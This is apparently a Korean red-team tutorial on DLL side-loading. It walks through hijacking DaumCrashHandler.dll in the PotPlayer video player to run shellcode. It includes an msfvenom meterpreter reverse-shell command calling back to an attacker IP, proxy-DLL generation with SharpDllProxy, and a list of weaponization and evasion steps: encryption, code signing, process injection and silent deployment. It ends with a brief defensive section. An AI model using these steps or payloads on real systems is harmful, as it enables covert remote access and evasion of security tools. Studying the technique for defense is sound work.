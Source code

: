 # DLL 사이드로딩 (DLL Side-Loading)

DLL 사이드로딩 (DLL Side-Loading)은 기본적으로 DLL 하이재킹 (DLL Search Order Hijacking) 과 비슷하지만, 조금 다른 기법이다. 윈도우에서 특정 프로그램들은 실행될 때 런타임 중 DLL을 불러와 필요한 코드를 실행한다. 이 때 이름은 같지만 공격자가 생성한 DLL을 프로그램 실행파일 (`.exe` ) 과 같은 디렉토리에 놔둬 공격자의 DLL이 로드되어 코드를 실행하도록 하는 공격이다.&#x20;

DLL 사이드로딩은 DLL 프록시로딩 (DLL Proxy Loading)이라고도 불리는데, 이는 로딩된 공격자의 DLL 맨 처음 Attach 될 때 실행하는 악성코드를 제외하고 프로그램이 요청하는 모든 DLL 함수들을 실제 DLL에게 모두 프록시 해 실행하기 때문이다. 때문에 프로그램의 입장에서는 비록 공격자의 DLL이 불려와졌다곤 해도, 필요한 DLL 함수들은 실제 DLL에서 제대로 다 불러와 쓰기 때문에 프로그램이 크래시 되지 않는다.&#x20;

&#x20;

![출처: https://www.flangvik.com/2019/07/24/Bypassing-AV-DLL-Side-Loading.html 를 기반으로 수정한 다이어그램](../.gitbook/assets/dllsideloading.drawio.png)

### 실습&#x20;

실습은 K사의 32비트 기반 동영상 플레이어 프로그램을 기반으로 진행한다. 이와 관련된 연구는 이미 [2019년도에 공개](https://github.com/mandiant/DueDLLigence)되었으며, DLL 사이드로딩은 제로데이가 아닌 윈도우의 기능을 이용하는 방법일 뿐임을 알린다. **심지어 마이크로소프트사에서는 이를 취약점으로 인정하지 않기 때문에 패치도 없다!** 연구자들이 발표한 특정 DLL의 사이드로딩은 패치가 되어 막혔지만, 다른 라이브러리를 사이드로딩해 이를 우회할 수 있다.&#x20;

#### DLL 사이드로딩 정보 수집&#x20;

먼저 ConsciousHacker의 [WFH툴](https://github.com/ConsciousHacker/WFH)을 이용해 PE바이너리가 어떤 라이브러리들을 로딩하는지, 그 라이브러리들 중 어떤 라이브러리가 사이드로딩이 가능한지 확인한다.&#x20;

```
PS C:\opt\WFH> python .\wfh.py -t "C:\Program Files (x86)\DAUM\PotPlayer\PotPlayerMini.exe" -m dll
==================================================
Running Frida against C:\Program Files (x86)\DAUM\PotPlayer\PotPlayerMini.exe
--------------------------------------------------
        [+] Potential DllMain Sideloading: LoadLibraryW,LPCWSTR: C:\Program Files (x86)\DAUM\PotPlayer\PotPlayer.dll
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\PotPlayer.dll, LPCSTR: PreprocessCmdLineExW
        < ... >
        [+] Potential DllMain Sideloading: LoadLibraryW,LPCWSTR: C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll, LPCSTR: SetCrashHandler
        [-] Potential DllExport Sideloading: GetProcAddress,hModule : C:\Program Files (x86)\DAUM\PotPlayer\DaumCrashHandler.dll, LPCSTR: GetCrashHandler
        < ... >
```

이외에도 `DllMain` 과 `DllExport` 가 모두 사용 가능한 라이브러리들이 많이 나오지만, 일단 `PotPlayer.dll` 과 `DaumCrashHandler.dll` 에 주목한다. `PotPlayer.dll` 은 공개된 연구 이후 패치를 더해 사이드로딩이 막혔지만, `DaumCrashHandler.dll` 은 사이드로딩이 가능하다. 사이드로딩이 가능하다는 정보를 수집했으니 쉘코드와 프록시 DLL 생성 단계로 넘어간다.&#x20;

#### 프록시 DLL 생성&#x20;

DLL 생성 전, 공격에 사용될 쉘코드를 만든다. .NET 어셈블리를 donut 형태로 만들수도 있지만, 간단한 PoC를 위해 msfvenom을 이용해 meterpreter 쉘코드를 작성한다. 32비트 기반 프로그램과 DLL이기 때문에 쉘코드도 x86로 만든다.&#x20;

```
msfvenom -p windows/meterpreter/reverse_https -f raw lhost=192.168.40.182 lport=443 -o meter-x86.bin
```

이후 DLL과 쉘코드를 한 디렉토리에 옮긴 뒤, FlangVik의 [SharpDLLProxy툴](https://github.com/Flangvik/SharpDllProxy)을 이용해 프로그램에 로드가될 공격자의 프록시 DLL을 생성한다.&#x20;

```
# .\SharpDllProxy.exe --dll .\DaumCrashHandler.dll --payload .\meter-x86.bin

< ... > 

# ls


    Directory:
    C:\opt\SharpDllProxy\SharpDllProxy\bin\Debug\netcoreapp3.1\output_DaumCrashHandler


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/1/2022   6:35 PM           2444 DaumCrashHandler_pragma.c
-a----          7/1/2022   6:35 PM         131232 tmp4405.dll
```

그러면 DLL 1개와 `.c` 소스코드 1개가 생긴다. 이 `tmp4405.dll` 이라는 파일은 이름이 바뀐 원래 `DaumCrashHandler.dll` 파일이다. 프록시 DLL이 될 파일은 `DaumCrashHandler_pragma.c` 이며, VS나 MVSC, CMake 등을 이용해 컴파일 해서 DLL로 만들면 된다.&#x20;

이제 준비된 파일들은 다음과 같다:&#x20;

* PotPlayerMini.exe - 실제로 실행될 PE 바이너리&#x20;
* tmp4405.dll - 원래 `DaumCrashHandler.dll` 파일. 이름만 바뀐 형태다.&#x20;
* DaumCrashHandler.dll - 공격자가 생성해낸, attach 시 쉘코드를 실행하는 프록시 DLL
* meter.bin - raw 형태의 쉘코드 파일. DaumCrashHandler.dll 가 attach이 이 쉘코드가 실행된다.&#x20;
* PotPlayer.dll - PotPlayerMini.exe가 실행할 때 꼭 필요한 라이브러리&#x20;

이제 이를 실행시키면 다음과 같은 형태로 코드 실행이 일어난다.&#x20;

1. PotPlayerMini.exe 파일이 실행되며 LoadLibrary를 이용해 DaumCrashHandler.dll 을 로드
2. DaumCrashHandler.dll 은 attach 되는 즉시 같은 디렉토리내의 meter.bin을 읽어와 실행&#x20;
3. PotPlayerMini.exe가 DaumCrashHandler.dll에서 사용하고 싶은 함수들은 모두 실제 DLL인 tmp4405.dll 에게 프록시되어 실행



암호화되지 않은, 기본적인 meterpreter 쉘코드와 인터넷에 공개되어 있는 PoC를 기반으로 실행한 DLL 사이드로딩의 결과는 다음과 같다.&#x20;

![](../.gitbook/assets/dll-sideloading.gif)

### 작전보안과 무기화&#x20;

위는 PoC 형태기 때문에 실제 작전에서 쓰이기에는 부족하다. 작전보안이나 무기화를 위해서는 다음과 같은 것들을 준비해야한다:&#x20;

1. meter.bin을 파일시스템에 드랍하는 것이 아닌, 쉘코드 형태로 DaumCrashHandler.dll 안에 넣어서 실행&#x20;
2. meter.bin 쉘코드를 암호화 한 뒤, 런타임 중 복호화해 실행&#x20;
3. 프록시 dll인 DaumCrashHandler.dll 파일에 [LimeLighter](https://github.com/Tylous/Limelighter)등의 툴을 이용해 디지털 서명 부과&#x20;
4. 메인 프로세스에 쉘코드를 로드하는 방식이 아닌 프로세스 인젝션을 통해 다른 프로세스에 인젝션&#x20;
5. PotPlayerMini.exe, tmp4405.dll, DaumCrashHandler.dll, PotPlayer.dll을 타겟 호스트에 같이 드랍하기 편하도록 압축 + 암호화 진행. 이후, 초기 침투 페이로드에서 코드 실행을 이용해 압축을 풀고 복호화를 진행한 후, PotPlayerMini.exe의 창이 보이지 않도록 silent 하게 실행&#x20;

### 대응 방안&#x20;

DLL 사이드로딩의 경우 블루팀이 이를 막는 방법도 있지만, 근본적으로는 소프트웨어 개발자 분들이 이를 원천봉쇄해야한다. DLL manifest 파일을 생성해 정해진 이름과 해시값의 DLL만 프로그램에 로드될 수 있도록 하는 것이 좋다.&#x20;

엔드 유저의 입장에서는, 어쨌든 공격자는 초기 침투 이후에 DLL 사이드로딩 기법을 사용하기 때문에 공격자에게 초기 침투 기회 자체를 제공하지 않는 것이 좋다.&#x20;

더 자세한 대응 방안을 위해서는 아래 Fireeye사의 레퍼런스의 페이지 10\~11을 참고한다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://redteaming.co.uk/2020/07/12/dll-proxy-loading-your-favorite-c-implant/" %}

{% embed url="https://github.com/ConsciousHacker/WFH" %}

{% embed url="https://github.com/Flangvik/SharpDllProxy" %}

{% embed url="https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows" %}

{% embed url="https://www.mandiant.com/sites/default/files/2021-09/rpt-dll-sideloading.pdf" %}
